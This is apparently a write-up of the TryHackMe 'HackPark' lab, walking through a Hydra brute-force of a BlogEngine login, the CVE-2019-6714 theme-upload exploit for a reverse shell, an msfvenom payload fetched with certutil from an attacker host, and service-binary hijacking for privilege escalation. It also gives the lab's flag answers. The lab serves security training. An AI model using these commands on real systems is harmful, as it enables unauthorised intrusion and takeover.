# [HackPark](https://tryhackme.com/r/room/hackpark)



Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Task 1 - Deploy the vulnerable Windows machine



Connect to our network and deploy this machine. Please be patient as this machine can take up to 5 minutes to boot! You can test if you are connected to our network, by going to our [access page](https://tryhackme.com/access). Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

This room will cover brute-forcing an accounts credentials, handling public exploits, using the Metasploit framework and privilege escalation on Windows.

### Answer the questions below

* Deploy the machine and access its web server.

* Whats the name of the clown displayed on the homepage?

	`Pennywise`

	

## Task 2 - Using Hydra to brute-force a login


Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful [Kali Linux machine](https://tryhackme.com/room/kali) and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

### Answer the questions below

We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a **GET** request which is used to request data from a webserver and a **POST** request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found [here](https://www.w3schools.com/tags/ref_httpmethods.asp)).

* What request type is the Windows website login form using?

	`POST`

	

Now we know the **request type** and have a **URL** for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

`hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form`

* Guess a username, choose a password wordlist and gain credentials to a user account!

	``

	* Open login form with Web Developer Tools
	
		
	
	* Try to login with any username and password. Edit & Reset to login from
	
		

	* Use Hydra brute force to login page with paramater body on Web Develompent Tools, change user test to ^USER^ and password test to ^PASS^
	
		`1qaz2wsx`
	
		 ```
		 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.253.78 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=p52E5Ou%2FrrWaZJfz92Gx%2FfbpTzKoVM6sywhHUacCZjGLdRonH5QTP1mNXo6Jq1zqGPSjCjx1GW0JD3uK%2FA%2FhRbMYeIQe7X43l9h64%2BmsJm76y2cLnjW7pz4Ryn7HB35fO5iQCx4hkngHGjZYvU1b293j5U%2FrW%2B5mTebe5NHY%2Fp%2FSpmjkwJAQBJ%2FnuqJaZHMqT%2BBW5S2oR3KDpXHmcfY91thBwTqi9%2BSMnB8BZ5l5OkdYDiUlxFHzFlq5W0ursJgtX3ZSfAueXH4mX3fOaAPavgRDeNtIWPWXK1GGM0ZY93VGzHFQhU2ME1rtOZUhVvaFBcMLcvbBY%2FMO4DlZ0Ltr82UAGwz50SoDmVER8E8bc60p%2FXnd&__EVENTVALIDATION=4hWUNiJYjd%2F3Rm1qa7k9GUH%2FRDbBtz2hM7GNL%2BsyQ3QhWVe%2B0ezaK%2FIOB%2B7oJ9bQnn5xzEjvWhAwKaiW5y%2BnI3DthkRl8IRJH61NfmT9GgSZGcnliZMy5%2FrXhlHVtTDzsRkW35dolvtg71GPDhdooRXWAolAvwPL5WJ7hq4wfk%2Fn1dND&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv
		 ```

		 

Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the **http-post-form** that we used above).

However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more. 

Below is a mini cheatsheet:

|Command|Description|
|-------|-----------|
|hydra -P <wordlist> -v <ip> <protocol>|Brute force against a protocol of your choice|
|hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>|You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts)|
|hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>|Attack a Windows Remote Desktop with a password list.|
|hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'|Craft a more specific request for Hydra to brute force.|

## Task 3 - Compromise the machine


In this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com/)) to get initial access on this Windows machine!

Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

### Answer the questions below

* Now you have logged into the website, are you able to identify the version of the BlogEngine?

	`3.3.6.0`

	

Use the [exploit database archive](http://www.exploit-db.com/) to find an exploit to gain a reverse shell on this system.

* What is the CVE?
	
	`CVE-2019-6714`

	

Using the public exploit, gain initial access to the server.

* Who is the webserver running as?

	`iis apppool\blog`

	* Download script
	
		```
		searchsploit -m 46353.cs
		```

		

	* Edit script file to connect attacker machine IP & Port. Save the file as PostView.ascx
	
		

	* Setup listener on attacker machine
	
		```
		nc -nvlp 8888
		```

		

	* Edit content `Welcome to HackPark`
	
		

	* Clinck on file manajer
	
		

	* Upload file PostView.ascx
	
		

	* Then, as the exploit said, navigate to http://10.10.136.100/?theme=../../App_Data/files to trigger the file and get the reverse shell
	
		

## Task 4 - Windows Privilege Escalation



In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

### Answer the questions below

* Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom. If you don't know how to do this, I suggest checking out the [Metasploit module](https://tryhackme.com/module/metasploit)!


	_Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!_

	* Create payload file
	
		```
		msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.17.127.223 LPORT=5555 -f exe -o shell.exe
		```

		

	* Setup HTTP server on attacker machine
	
		```
		python3 -m http.server 8000
		```

	* Download shell file on target machine
	
		```
		certutil.exe -urlcache -f http://10.17.127.223:8000/shell.exe C:/Windows/Temp/shell.exe
		```

		

	* Setup meterpreter listener on attacker machine
	
		```
		msfconsole -q -x "use exploit/multi/handler; set LHOST 10.17.127.223; set LPORT 5555; set PAYLOAD windows/meterpreter/reverse_tcp; exploit"
		```

		

	* Run file payload to get the reverse shell
	
		```
		C:\Windows\Temp\shell.exe
		```

		


You can run metasploit commands such as **sysinfo** to get detailed information about the Windows system. Then feed this information into the [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) script and quickly identify any obvious vulnerabilities.

* What is the OS version of this windows machine?

	`Windows 2012 R2 (6.3 Build 9600)`

Further enumerate the machine.

1. Upload WinPEAS to target machine

	```
	cd C:/Windows/Temp
	upload ./winPEASx86.exe
	```

2. Run WinPEAS

	

* What is the name of the abnormal _service_ running?

	`WindowsScheduler`

	

* What is the name of the binary you're supposed to exploit? 

	`Message.exe`

	

Using this abnormal service, escalate your privileges!

* What is the user flag (on Jeffs Desktop)?

	`759bd8af507517bcfaede78a21a73e39`

	* Rename file `Message.exe` to `Message.bak`
	
		
	
	* Copy our previos file payload from "C:\Windows\Temp\shell.exe" to "C:\Program Files (x86)\SystemScheduler\Message.exe"
	
		
	
	* Setup meterpreter listener on attacker machine
	
		```
		msfconsole -q -x "use exploit/multi/handler; set LHOST 10.17.127.223; set LPORT 5555; set PAYLOAD windows/meterpreter/reverse_tcp; exploit"
		```

		
	
	* Get the shell & user flag
	
		

* What is the root flag?

	`7e13d97f05f7ceb9881a3eb3d78d3e72`
	
	

## Task 5 - Privilege Escalation Without Metasploit


In this task we will escalate our privileges without the use of meterpreter/metasploit! 

Firstly, we will pivot from our netcat session that we have established, to a more stable reverse shell.

Once we have established this we will use winPEAS to enumerate the system for potential vulnerabilities, before using this information to escalate to Administrator.

### Answer the questions below

* Now we can generate a more stable shell using msfvenom, instead of using a meterpreter, This time let's set our payload to windows/shell_reverse_tcp

After generating our payload we need to pull this onto the box using [powershell](https://tryhackme.com/room/powershell).

* _Tip: It's common to find C:\Windows\Temp is world writable!_

Now you know how to pull files from your machine to the victims machine, we can pull winPEAS.bat to the system using the same method! ([You can find winPEAS here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat))

WinPeas is a great tool which will enumerate the system and attempt to recommend potential vulnerabilities that we can exploit. The part we are most interested in for this room is the running processes!

_Tip: You can execute these files by using .\filename.exe_

* Using winPeas, what was the Original Install time? (This is date and time)

	`8/3/2019, 10:43:23 AM`

	